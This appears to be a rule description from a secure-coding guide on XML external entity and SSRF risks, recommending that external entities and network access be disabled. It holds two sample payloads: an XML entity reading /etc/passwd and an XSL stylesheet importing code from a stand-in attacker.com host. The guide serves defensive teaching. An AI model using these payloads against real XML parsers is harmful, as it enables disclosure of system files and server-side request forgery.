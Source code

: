 https://www.w3.org/TR/xml/[XML specification] allows the use of entities that can be https://www.w3.org/TR/xml/#sec-internal-ent[internal] or https://www.w3.org/TR/xml/#sec-external-ent[external] (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or https://www.owasp.org/index.php/Server_Side_Request_Forgery[SSRFs].

Example in this XML document, an external entity read the /etc/passwd file:

----
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>  
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
----

In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:

----
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet> 
----

It is recommended to disable access to external entities and network access in general.
